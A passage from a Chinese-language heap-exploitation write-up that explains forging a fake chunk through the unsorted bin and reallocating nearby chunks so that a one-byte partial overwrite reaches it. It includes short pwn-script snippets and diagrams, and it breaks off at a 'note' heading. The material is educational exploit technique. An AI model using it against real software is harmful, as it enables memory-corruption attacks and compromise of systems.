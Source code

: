 如下图所示，堆块0x55555555bc00是我们要用于构造的堆块地址。

[![](https://p1.ssl.qhimg.com/t01c042b35183da0ed5.png)](https://p1.ssl.qhimg.com/t01c042b35183da0ed5.png)

通过unsorted bin 链表我们让这个堆块的fd和bk都写了一个堆地址

[![](https://p1.ssl.qhimg.com/t01be455787b0c4e2f6.png)](https://p1.ssl.qhimg.com/t01be455787b0c4e2f6.png)

**<a class="reference-link" name="%E6%9E%84%E9%80%A0%E5%9B%BE%EF%BC%9A"></a>构造图：**

[![](https://p1.ssl.qhimg.com/t01cc840229c8cf1cc9.png)](https://p1.ssl.qhimg.com/t01cc840229c8cf1cc9.png)

其中辅助堆块的作用在之后会提及

**构造代码：**

```
add(0x418) #0 fd
add(0x108) #1
add(0x418) #2
add(0x438) #3
add(0x108) #4
add(0x428) # 5 bk 
add(0x108) # 6
delete(0)
delete(3)
delete(5)
```

**<a class="reference-link" name="2.%E5%9C%A8%E4%BC%AA%E9%80%A0%E5%A0%86%E5%9D%97%E9%99%84%E8%BF%91%E7%94%B3%E8%AF%B7%E5%A0%86%E5%9D%97"></a>2.在伪造堆块附近申请堆块**

由于我们要通过部分写入的方法来绕过检测，而在堆空间中，只有低三字节是固定的。

所以我们为了逃避爆破，希望能够找到只需要覆盖最低一字节就可以修改成fake chunk的地址，于是我们应该利用在fake堆块附近0x100内的堆块来作为辅助堆块写地址，**之前申请的辅助堆块就是起到了这个作用，我们可以利用这个堆块来进行重分配，使得分配的地址非常贴近利用堆块**。

**<a class="reference-link" name="%E6%9E%84%E9%80%A0%E5%9B%BE%EF%BC%9A"></a>构造图：**

[![](https://p1.ssl.qhimg.com/t016719e17bae2e7887.png)](https://p1.ssl.qhimg.com/t016719e17bae2e7887.png)

可以发现，我们先让辅助堆块和利用堆块合并之后再对空间进行重新分配，使得堆块2恰好可以覆盖到之前利用堆块的size，且堆块3的0x55555555bc20，十分贴近之前0x55555555bc00，只需要抹去最低一字节即可。

**<a class="reference-link" name="%E6%9E%84%E9%80%A0%E4%BB%A3%E7%A0%81%EF%BC%9A"></a>构造代码：**

```
delete(2) #2 &amp; 3 unlink
add(0x438, 'a' * 0x418 + p64(0xA91))  # 0 set size
add(0x418)  # 2 c20
add(0x428)  # 3 bk 150
add(0x418)  # 5 fd 2b0
```

**<a class="reference-link" name="%E6%B3%A8%E6%84%8F%EF%BC%9A"></a>注意：**
